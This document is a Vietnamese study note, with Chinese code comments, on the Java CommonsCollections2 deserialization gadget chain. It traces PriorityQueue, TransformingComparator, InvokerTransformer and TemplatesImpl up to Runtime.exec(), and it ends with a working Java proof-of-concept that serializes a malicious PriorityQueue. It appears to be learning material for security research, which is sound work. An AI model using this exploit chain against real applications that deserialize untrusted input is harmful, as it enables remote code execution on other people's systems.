

## Reference
- https://cloud.tencent.com/developer/article/2277479
- https://zhuanlan.zhihu.com/p/479180596
- https://www.cnblogs.com/xhds/p/15736033.html



detail:
```
ObjectInputStream.readObject()
        |
PriorityQueue.readObject()
        |
PriorityQueue.heapify
        |
PriorityQueue.siftDown
        |
PriorityQueue.siftDownUsingComparator
        |
TransformingComparator.compare()
        |
InvokerTransformer.transform()
        |
TemplatesImpl.getTransletInstance
        |
->(动态创建的类)cc2.newInstance()->Runtime.exec()
```
## Prerequisite knowledge
### 1.PriorityQueue
- Hoạt động tương tự cấu trúc Queue nhưng nó khác ở chỗ dữ liệu bên trong hàng đợi được sặp xếp theo `Comparator` (default là Min-Heap: nhỏ nhất nằm đầu hàng đợi)


### 3. TemplatesImpI
- Class này được sử dụng để load our malicious class. Cho phép reconstruct một class từ bytecode (`newTransformer` `getOutputProperties`)
#### getTransletInstance:
```java
## TemplatesImpI class

// các properties của class này
private byte[][] _bytecodes;    // nơi chèn bytecode của malicious class
private String _name;           // Tên của class translet chính , phải có giá trị để tránh if (_name == null) return null;
private Class[] _class;         // 
private int _transletIndex = 0;
private Properties _outputProperties;

private Translet getTransletInstance() 
        throws TransformerConfigurationException {
    try {
        if (_name == null) {
            return null;
        }

        if (_class == null) {
            defineTransletClasses();
        }

        // The translet needs to keep a reference to all its auxiliary
        // class to prevent the GC from collecting them
        AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
        translet.postInitialization();
        translet.setTemplates(this);
        
        // (Thêm lệnh return hoặc phần xử lý tiếp theo của khối try nếu có)
        
    } catch (Exception e) {
        // Xử lý ngoại lệ nếu cần
    }
}
```
Điểm cần chú ý là `If _class==null` sẽ gọi `defineTransletClasses()`
#### defineTransletClasses() 
```java
## TemplatesImpI class

private void defineTransletClasses() 
        throws TransformerConfigurationException {
    
    if (_bytecodes == null) {
        ErrMsg err = new ErrorMsg(ErrMsg.NO_TRANSLET_CLASS_ERR);
        throw new TransformerConfigurationException(err.toString());
    }

    TransletClassLoader loader = (TransletClassLoader)
        AccessController.doPrivileged(new PrivilegedAction() {
            public Object run() {
                return new TransletClassLoader(ObjectFactory.findClassLoader());
            }
        });
        
    try {
        final int classCount = _bytecodes.length;
        _class = new Class[classCount];

        if (classCount > 1) {
            _auxClasses = new HashMap<>();
        }

        for (int i = 0; i < classCount; i++) {
            // CHÚ Ý Ở ĐÂY
            _class[i] = loader.defineClass(_bytecodes[i]);
            final Class superClass = _class[i].getSuperclass();

            // Check if this is the main class
            if (superClass.getName().equals(ABSTRACT_TRANSLAT)) {
                _transletIndex = i;
            }
            else {
                _auxClasses.put(_class[i].getName(), _class[i]);
            }
        }
    } catch (Exception e) {
        throw new TransformerConfigurationException(e.toString());
    }
}
```
- Vòng lặp duyệt qua các mảng `bytecode` và load chúng thành đối tượng `Class` thông qua `loader.defineClass()` lưu vào `_class[i]`. Sau đó tìm class cha của `_class[i]` bằng `getSuperclass()`. Mục tiêu là muốn chạy dòng lệnh `_transletIndex = i;` trong khối if. Gía trị của hằng số `ABSTRACT_TRANSLAT` là `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`
- lệnh `_transletIndex = i;` mục tiêu lưu index của malicious bytecode và trong `TemplatesImpl` class yêu cầu class được khởi tạo phải là một translet hợp lệ, kẻ tấn công lợi dụng nó bằng cách tự viết một class độc hại bắt buộc phải kế thừa từ `AbstractTranslet`, sau đó biên dịch class đó thành bytecode và nhét vào `_bytecodes`.

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.ArrayList;
public class test2 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, TransformerConfigurationException {
        //实例化TemplatesImpl
        TemplatesImpl templates=new TemplatesImpl();
        //获取TemplatesImpl的Class
        Class tc=templates.getClass();
        Field nameField=tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"aaaa");
        Field bytecodesField=tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        //加载恶意类
        byte[] code = Files.readAllBytes(Paths.get("D://tmp/test.class"));
        byte[][] codes={code};
        bytecodesField.set(templates,codes);

        Field tfactoryField=tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());
        //调用
        templates.newTransformer();
    }
}
```

## TransformingComparator

### TransformingComparator 
- là một cầu nối (modifier/adapter)tương tự `ChainedTransformer` trong CC1
```java
# TransformingComparator

/**
 * @param transformer what will transform the arguments to compare
 * @param decorated the decorated Comparator
 */
// constructor
public TransformingComparator(final Transformer<? super I, ? extends O> transformer,
                              final Comparator<O> decorated) {
    this.decorated = decorated;
    this.transformer = transformer;
}

//-----------------------------------------------------------------------
/**
 * Returns the result of comparing the values from the transform operation.
 *
 * @param obj1 the first object to transform then compare
 * @param obj2 the second object to transform then compare
 * @return negative if obj1 is less, positive if greater, zero if equal
 */
public int compare(final I obj1, final I obj2) {
    final O value1 = this.transformer.transform(obj1);
    final O value2 = this.transformer.transform(obj2);
    return this.decorated.compare(value1, value2);
}

```
- Chúng ta cần gọi `TransformingComparator.()` để trigger `this.transformer.transform()`. Nếu khởi tạo `TransformingComparator comparator =new TransformingComparator(invokerTransformer);` thì nó sẽ gọi `this.invokerTransformer.transformer()`. 
- Để gọi `compare()` thì tận dụng `PriorityQueue`

## PriorityQueue 
- Hàng đợi FIFO nhưng theo Priority , Bởi vì sort sẽ trigger `compare()` method của `TransformingComparator`
```java
# PriorityQueue

private void siftUpUsingComparator(int k, E x) {
    while (k > 0) {
        int parent = (k - 1) >>> 1;
        Object e = queue[parent];
        if (comparator.compare(x, (E) e) >= 0)
            break;
        queue[k] = e;
        k = parent;
    }
    queue[k] = x;
}


private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}

private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
}


private void readObject(java.io.ObjectInputStream s) 
        throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    queue = new Object[size];
    for (int i = 0; i < size; i++) {
        queue[i] = s.readObject();
    }

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}

```
- Theo như code trên thì `readObject` ---> `heapify()` ---> `siftdown()` ---> `siftDownUsingComparator()` ---> `comparator.compare()`

##  POC
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;


public class CC2test {

    public static void main(String[] args)throws Exception {


        TemplatesImpl templates=new TemplatesImpl(); //实例化TemplatesImpl
        Class tc=templates.getClass(); //获取templates的Classlass
        Field nameField=tc.getDeclaredField("_name");//反射获取templates中的_name
        nameField.setAccessible(true); //暴力反射
        nameField.set(templates,"aaaa"); //修改_name的值
        Field bytecodesField=tc.getDeclaredField("_bytecodes");//反射获取templates中的_bytecodes
        bytecodesField.setAccessible(true); //暴力反射
        byte[] code = Files.readAllBytes(Paths.get("D://tmp/test.class")); //获取恶意类
        byte[][] codes={code};
        bytecodesField.set(templates,codes);//修改_bytecodes的值

        //反射调用newTransformer()
        InvokerTransformer invokerTransformer=new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});

        //将TransformingComparator置空 防止再序列化时触发恶意类
        TransformingComparator transformingComparator=new TransformingComparator<>(new ConstantTransformer<>(1));


        PriorityQueue priorityQueue=new PriorityQueue<>(transformingComparator);
        //将恶意类添加给PriorityQueue
        priorityQueue.add(templates);
        priorityQueue.add(2);

        //将invokerTransformer给transformingComparator中的transformer
        Class c=transformingComparator.getClass();
        Field transformField=c.getDeclaredField("transformer");
        transformField.setAccessible(true);
        transformField.set(transformingComparator,invokerTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws Exception{
        ObjectOutputStream oss=new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oss.writeObject(obj);
    }

    public static void unserialize(Object obj) throws Exception{
        ObjectInputStream oss=new ObjectInputStream(new FileInputStream("ser.bin"));
        oss.readObject();
    }
}
```